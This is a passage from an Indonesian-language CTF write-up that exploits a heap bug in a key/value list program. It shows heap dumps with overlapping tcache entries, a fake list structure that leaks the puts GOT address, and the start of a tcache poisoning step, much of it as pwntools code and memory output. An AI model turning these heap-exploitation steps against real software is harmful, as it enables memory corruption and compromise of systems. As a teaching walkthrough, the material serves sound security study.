 ```python
# (0x70)     fastbin[5]: 0x0
# (0x80)     fastbin[6]: 0x0
# (0x90)     fastbin[7]: 0x0
# (0xa0)     fastbin[8]: 0x0
# (0xb0)     fastbin[9]: 0x0
#                   top: 0xbb8370 (size : 0x1fc90) 
#        last_remainder: 0x0 (size : 0x0) 
#             unsortbin: 0x0
# (0x30)   tcache_entry[1]: 0xbb8350 --> 0xbb82e0 --> 0xbb8350 (overlap chunk with 0xbb8340(freed) ) !!!
```
Seeb, udah punya 2 pointer yang sama di freelist. Lanjut, karena setiap _request_ list data baru selalu melakukan malloc(0x20), biar mencegah linked list jadi infinite loop, buat value/key ukurannya jatuh di fastbin\[1\] \(0x30\) yang berarti sekitar [0x19 - 0x28]. Dari sini bisa dimanfaatkan untuk membuat fake list yang meng _overwrite_ list B.
```python
# fake list di B
fake_list  = p64(0) # fd
fake_list += p64(0x00400505) # key : str.malloc
fake_list += p64(0x602020) # value : reloc.puts
fake_list += p64(0) # next

insert('A' * 8, fake_list)

# tcache_entry[1] (0x30 freelist) : B
# list : malloc -> B

puts = u64(lookup('malloc').ljust(8, '\x00'))
```
Loh, kok freelist jadi tinggal B? Sebelum `insert()` untuk key `'B' * 8`, `malloc()` untuk value lebih dulu dilakukan jadi list untuk `'B' * 8` ter- _overwrite_ oleh fake list. Intinya `'B' * 8` terhapus sehingga `malloc(0x20)` tetap dilakukan untuk key `'B' * 8` (ada dua kali `malloc(0x20)`). Untuk leak hanya perlu lookup value dari `malloc` karena sudah dibuat fake list dengan key `malloc` dan value ptr ke `reloc.puts` (got puts).

### tcache poisoning
tcache poisoning pada dasarnya hanya mengubah tcache_entry pada malloc\`d yang telah di free ke value yang diinginkan. Kondisi heap pada saat sebelum setelah di `free()`,

```python
delete('B' * 8)

# (0x30)   tcache_entry[1]: 0x1bab350
# 0x1bab290:      0x0000000000000000      0x0000000000000021
# 0x1bab2a0:      0x4141414141414141      0x0000000000000000
# 0x1bab2b0:      0x0000000000000000      0x0000000000000021
# 0x1bab2c0:      0x6161616161616161      0x0000000000000000
# 0x1bab2d0:      0x0000000000000000      0x0000000000000031
# 0x1bab2e0:      0x0000000800000008      0x0000000001bab2a0
# 0x1bab2f0:      0x0000000001bab2c0      0x0000000001bab350
# 0x1bab300:      0x0000000000000000      0x0000000000000021
# 0x1bab310:      0x4242424242424242      0x0000000000000000
# 0x1bab320:      0x0000000000000000      0x0000000000000021
# 0x1bab330:      0x6262626262626262      0x0000000000000000
# 0x1bab340:      0x0000000000000000      0x0000000000000031
# 0x1bab350:      0x0000000000000000      0x0000000001bab310
# 0x1bab360:      0x0000000001bab330      0x0000000000000000
# 0x1bab370:      0x0000000000000000      0x000000000001fc91

delete('A' * 8)

# (0x30)   tcache_entry[1]: 0x1bab2e0 --> 0x1bab350
# 0x1bab290:      0x0000000000000000      0x0000000000000021
# 0x1bab2a0:      0x4141414141414141      0x0000000000000000
```